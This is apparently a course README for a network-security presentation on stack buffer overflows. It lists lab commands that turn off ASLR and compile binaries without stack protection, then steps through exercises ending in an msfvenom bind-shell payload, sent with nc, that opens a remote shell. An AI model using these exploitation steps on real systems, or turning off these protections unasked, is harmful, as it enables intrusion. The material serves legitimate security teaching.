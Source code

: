 # NetworkSecurityPresentation
Presentation for the NetSec course based on Buffer overflow exploit

# Requisite
    
## disable memory randomization, enable core dumps
```bash
    cat /proc/sys/kernel/randomize_va_space
    sudo bash -c 'echo "kernel.randomize_va_space = 0" >> /etc/sysctl.conf'
    sudo sysctl -p
    cat /proc/sys/kernel/randomize_va_space
    # verify "0"
    ulimit -c unlimited
    ulimit -c
    # verify "unlimited"
```
# Test Exercise

This test exercise is used to explain how memory works and how data is managed into the stack.

## Compilation
```bash
    cd /path/to/repo/src/ex0
    gcc -O0 -m32 -z execstack -fno-stack-protector -mpreferred-stack-boundary=2 -g exercise0.c -o exercise0
```

## Execution
```bash
    cd /path/to/repo/src/ex0
    gdb exercise0
```
# First Exercise

The first exercise consists in overwrite a variable used to grant permission to a user using the `strcpy()` vulnerable function

## Compilation
```bash
    cd /path/to/repo/src/ex1
    gcc -O0 -m32 -z execstack -fno-stack-protector -mpreferred-stack-boundary=2 -g exercise1.c -o exercise1
```

## Execution
```bash
    cd /path/to/repo/src/ex1
    ./exercise1 input
```
# Second Exercise

The second exercise consists in overwrite the `RET` address of the stack in order to redirect the program to a chosen function using the `strcpy()` vulnerable function and the `gdb` debugger in order to find out the right number of junk chars to fill up the stack

## Compilation
```bash
    cd /path/to/repo/src/ex2
    gcc -O0 -m32 -z execstack -fno-stack-protector -mpreferred-stack-boundary=2 -g exercise2.c -o exercise2
```

## Find out the function register
```bash
    cd /path/to/repo/src/ex2
    objdump -d exercise2 | grep <function_name>
```
## Execution
```bash
    cd /path/to/repo/src/ex2
    ./exercise2 $(python2 -c 'print"A"*<num_char> + "function register"')
```
    keep in mind that the intel cpu are Little Endian so pay attention when insert the register
# Third Exercise
The third exercise consists in overwrite the `RET` address of the stack and fill up the buffer with a shellcode in order to spawn a remote shell possibly with root privileges
## Compilation server
```bash
    cd /path/to/repo/src/ex3
    gcc -O0 -m32 -z execstack -fno-stack-protector -mpreferred-stack-boundary=2 -g exercise3_server.c -o exercise3_server
```

## Create a shellcode using msfvenom
```bash
    msfvenom -p linux/x86/shell_bind_tcp AppendExit=true -e x86/alpha_mixed -f python
```
## Execution server
```bash
    cd /path/to/repo/src/ex3
    ./exercise3_server
```

## Execution Client
```bash
    use one of the ex3-client file to generate a malicious string
    ./ex3-client*.py > string
    nc <server_port> 4001 < string 
    to generate the malicious string use the buffer output of the previous command and the %eip register found using the debugger

    nc <server_port> 4444 
    here's your remote shell :)
```
